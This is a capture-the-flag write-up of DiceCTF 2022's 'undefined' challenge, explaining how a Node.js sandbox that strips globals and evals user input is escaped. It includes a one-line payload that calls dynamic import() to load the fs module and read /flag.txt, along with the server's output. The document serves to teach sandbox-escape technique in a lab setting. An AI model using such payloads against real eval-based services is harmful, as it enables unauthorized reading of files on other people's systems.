# Writeup of "undefined" challenge from DiceCTF 2022

Writeup author: wiegnand (Lucas Baizer)

The challenge (written by aplet123) had this description:
```
I was writing some Javascript when everything became undefined...

Can you create something out of nothing and read the flag at /flag.txt? Tested for Node version 17.

nc mc.ax 31131
```
Attached to the challenge was a single file, [index.js](./index.js).

# Summary

This challenge involves sending a JavaScript payload to obtain access to Node modules through built-in Node mechanics.

# Understanding index.js

The first thing I did was simply just read the contents of the `index.js` file and try and understand what it does. It removes almost all global variables, and undefines the function constructor field. The only global variables left are the `console` object and the `eval` function. After undefining everything, the script runs `eval` on arbitrary code sent through `nc`.

# Reversing

The ultimate goal is to read the file at `/flag.txt`, which my intial thought would be that we will require our payload to require the `fs` module somehow.

My first goal in finding a potential payload was considering if Node 17 has some instrinic global function of field that existed outside of the `global` object. My first guess was to use the dynamic import function, `import`.

# Exploitation

As a first guess, using the `import` function, I sent the payload to the `nc` server:
```javascript
import('fs').then(fs => console.log(fs.readFileSync('/flag.txt', 'utf8')))
```
Which resulted in the server giving the output:
```
Promise { <pending> }
dice{who_needs_builtins_when_you_have_arguments}
```
It seems that the `import` function was somehow not undefined, and allowed us to get the flag.